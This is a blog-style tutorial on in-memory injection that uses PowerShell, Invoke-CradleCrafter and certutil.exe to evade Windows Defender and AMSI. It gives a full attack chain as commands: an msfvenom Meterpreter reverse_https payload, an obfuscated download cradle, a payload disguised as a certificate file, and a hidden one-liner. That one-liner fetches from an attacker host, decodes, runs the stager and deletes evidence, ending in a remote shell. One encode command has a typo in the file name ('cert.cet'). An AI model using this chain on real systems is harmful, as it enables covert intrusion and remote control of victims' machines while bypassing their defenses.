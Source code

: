 ```yaml
---
layout: post
title: "PowerShell: In-Memory Injection Using CertUtil.exe"
date: "2022-05-18"
description: "Using PowerShell, `Invoke-CradleCrafter` and Microsoft’s Certutil.exe to craft a payload and one-liner that can be used to evade the latest version of Windows Defender (as of this writing)."
coverimage: PowerShell_In_Memory_Injection_Using_CertUtil_exe.jpg
tags: certutil, powershell
published: true
posttype: article
categories: tutorial
---
```

- PowerShell is still one of the easiest and best ways to gain a foothold, but at the same time, it is selling you out because it talks to AMSI as soon as it’s run.
- The beauty of this method is that Microsoft’s `certutil` does the network call out to your primary payload while appearing to be an innocent certificate file.

**Pre-Requisites**

- Download `Invoke-CradleCrafter` from GitHub.

**Methodology**

1. First, we will create a base64 encoded PowerShell Meterpreter payload by performing the following:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<YOUR IP HERE> LPORT=443 -e cmd/powershell_base64 -f psh -o b64_pwsh.txt
```

<div class="card-body es-lightbulb"><p>
**Note** that the payload file’s extension could be anything as long as `certutil` can get at it and read its content. For example, an organization may have a policy (or IDS, content filter, etc.) that does not allow the downloading of scripts; however, they probably allow .txt files or even files with abnormal extensions. If you change it, make sure you compensate for that when setting the URL in `Invoke-CradleCrafter`</p>
</div>


1. Next, you will create a folder used to serve up web content. Place the PowerShell Meterpreter PowerShell script (`b64_pwsh.txt`) inside this folder.
2. Next, we will use `Invoke-CradleCrafter` to obfuscate our `certutil` and PowerShell commands used to perform the in-memory injection. Drop into a PowerShell prompt on your Linux host by typing `pwsh` or `powershell`.  Then `cd` into your `Invoke-CradleCrafter` directory.

```powershell
Import-Module .\Invoke-CradleCrafter.psd1; 
Invoke-CradleCrafter
Invoke-CradleCrafter> SET URL http://10.10.10.10/b64_pwsh.txt
Invoke-CradleCrafter> MEMORY
Invoke-CradleCrafter> CERTUTIL
```

1. Next, you will be presented with your obfuscation options. Select **ALL** by typing it on the command line and then typing **1** to execute.

```
:::powershell
Invoke-CradleCrafter> ALL
Invoke-CradleCrafter> 1
```

1. Once generated, we now have a PowerShell cradle with obfuscation that can pull in our `b64_pwsh.txt` payload. We now want to put this into a text file such as `output.txt` for encoding. 
2. We will encode this file in base64 using the `certutil` to create a file called `cert.cer` which will end up on our web server next to the `b64_pwsh.txt`.

```
certutil -encode output.txt cert.cet
```

1. We can now use the following one-liner to pull our `cert.cer` certificate from our web server; the certificate gets decoded and saved to the disk as `stager.ps1`. The file `stager.ps1` is then executed (this is the content of the cradle we made earlier with `Invoke-CradleCrafter`), and when it runs, it pulls the `b64_pwsh.txt` file down from the server and executes it to give us a Metasploit Meterpreter session.  

```
:::powershell
powershell.exe -Win hiddeN -Exec ByPasS add-content -path %APPDATA%\cert.cer (New-Object Net.WebClient).DownloadString('http://10.10.10.10/cert.cer'); certutil -decode %APPDATA%\cert.cer %APPDATA%\stager.ps1 & start /b cmd /c powershell.exe -Exec Bypass -NoExit -File %APPDATA%\stager.ps1 & start /b cmd /c del %APPDATA%\cert.cer
```

<div class="card-body es-warning"><p> **NOTE** that the `cert.cer` file will be deleted by the script; however, you will need to remove the `stager.ps1` file manually.</p>
</div>